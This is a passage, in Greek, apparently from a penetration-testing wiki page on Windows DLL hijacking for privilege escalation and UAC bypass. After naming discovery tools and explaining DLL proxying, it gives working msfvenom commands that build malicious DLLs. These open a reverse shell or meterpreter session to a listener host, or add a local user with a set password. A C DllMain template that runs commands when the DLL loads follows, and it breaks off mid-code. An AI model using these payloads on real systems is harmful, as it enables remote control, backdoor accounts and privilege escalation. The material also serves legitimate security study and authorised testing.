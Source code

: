 ### Αυτοματοποιημένα εργαλεία

[**Winpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) θα ελέγξει αν έχετε άδειες εγγραφής σε οποιονδήποτε φάκελο μέσα στο system PATH.\
Άλλα ενδιαφέροντα αυτοματοποιημένα εργαλεία για την ανακάλυψη αυτής της ευπάθειας είναι οι **PowerSploit functions**: _Find-ProcessDLLHijack_, _Find-PathDLLHijack_ και _Write-HijackDll._

### Παράδειγμα

Σε περίπτωση που βρείτε ένα εκμεταλλεύσιμο σενάριο, ένα από τα πιο σημαντικά πράγματα για να το εκμεταλλευτείτε επιτυχώς θα ήταν να **δημιουργήσετε ένα dll που εξάγει τουλάχιστον όλες τις λειτουργίες που θα εισάγει το εκτελέσιμο από αυτό**. Ούτως ή άλλως, σημειώστε ότι το Dll Hijacking είναι χρήσιμο για να [ανεβείτε από το Medium Integrity level σε High **(παρακάμπτοντας το UAC)**](../authentication-credentials-uac-and-efs.md#uac) ή από [**High Integrity σε SYSTEM**](./#from-high-integrity-to-system)**.** Μπορείτε να βρείτε ένα παράδειγμα για **πώς να δημιουργήσετε ένα έγκυρο dll** μέσα σε αυτή τη μελέτη dll hijacking που επικεντρώνεται στο dll hijacking για εκτέλεση: [**https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows**](https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows)**.**\
Επιπλέον, στην **επόμενη ενότητα** μπορείτε να βρείτε μερικούς **βασικούς κωδικούς dll** που μπορεί να είναι χρήσιμοι ως **πρότυπα** ή για να δημιουργήσετε ένα **dll με μη απαιτούμενες εξαγόμενες λειτουργίες**.

## **Δημιουργία και μεταγλώττιση Dlls**

### **Dll Proxifying**

Βασικά, ένα **Dll proxy** είναι ένα Dll ικανό να **εκτελεί τον κακόβουλο κώδικά σας όταν φορτωθεί** αλλά και να **εκθέτει** και να **λειτουργεί** όπως **αναμένεται** **αναμεταδίδοντας όλες τις κλήσεις στη πραγματική βιβλιοθήκη**.

Με το εργαλείο [**DLLirant**](https://github.com/redteamsocietegenerale/DLLirant) ή [**Spartacus**](https://github.com/Accenture/Spartacus) μπορείτε στην πραγματικότητα να **υποδείξετε ένα εκτελέσιμο και να επιλέξετε τη βιβλιοθήκη** που θέλετε να proxify και **να δημιουργήσετε ένα proxified dll** ή **να υποδείξετε το Dll** και **να δημιουργήσετε ένα proxified dll**.

### **Meterpreter**

**Get rev shell (x64):**
```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```
**Πάρε ένα meterpreter (x86):**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```
**Δημιουργήστε έναν χρήστη (x86 δεν είδα μια x64 έκδοση):**
```
msfvenom -p windows/adduser USER=privesc PASS=Attacker@123 -f dll -o msf.dll
```
### Το δικό σας

Σημειώστε ότι σε πολλές περιπτώσεις το Dll που θα συντάξετε πρέπει να **εξάγει πολλές συναρτήσεις** που θα φορτωθούν από τη διαδικασία του θύματος, αν αυτές οι συναρτήσεις δεν υπάρχουν, το **δυαδικό αρχείο δεν θα μπορέσει να τις φορτώσει** και η **εκμετάλλευση θα αποτύχει**.
```c
// Tested in Win10
// i686-w64-mingw32-g++ dll.c -lws2_32 -o srrstr.dll -shared
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
switch(dwReason){
case DLL_PROCESS_ATTACH:
system("whoami > C:\\users\\username\\whoami.txt");
WinExec("calc.exe", 0); //This doesn't accept redirections like system
break;
case DLL_PROCESS_DETACH:
```